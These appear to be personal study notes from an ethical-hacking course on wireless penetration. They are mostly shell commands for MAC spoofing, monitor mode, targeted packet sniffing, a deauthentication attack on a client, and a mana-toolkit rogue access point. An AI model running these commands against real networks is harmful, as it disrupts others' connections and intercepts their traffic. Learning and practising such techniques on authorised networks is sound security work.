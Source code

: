 # network penetration

https://www.udemy.com/learn-ethical-hacking-from-scratch/learn/v4/t/lecture/5305122?start=0

## monitor mode method 1

```sh
# stop interface
ifconfig wlan0 down
# start interface
ifconfig wlan0 up
# change mac address of interface
macchanger --random wlan0
# start monitor mode on interface
airmon-ng start wlan0
# list interfaces (reports monitor mode)
iwconfig # interface optional
```

interface has monitor mode or managed mode

- managed mode filters on packets with appropriate mac address
- monitor mode will catch all packets

if airmon-ng does not work, you can enable monitor mode by trying

# method 2

```sh
iwconfig wlan0 down
iwconfig wlan0 mode monitor
iwconfig wlan0 up
iwconfig
```

# method 3
```sh
airmon-ng check kill # shut down processes that may interfere
iwconfig wlan 0 down
airmon-ng start wlan0
```

# packet sniffing

```sh
airodump-ng wlan0mon
airodump-ng --channel 11 --bssid <macaddroftargetap> --write test-tempestad wlan0mon
```


# deauth attack
```sh
aireplay-ng --deauth 1000 -a <bssid> -c <client_mac_addr> wlan0mon
```

## honeypot

```sh
apt-get install mana-toolkit
# ensure config below has correct interfaces listed, update SSID if needed
/etc/mana-toolkit/hostapd-mana.conf
# ensure script below has correct interface in phy var
/usr/share/mana-toolkit/run-man/start-nat-simple.sh
# run cmd
bash /usr/share/mana-toolkit/run-man/start-nat-simple.sh
# from here you can connect to fake access point on another machine
```
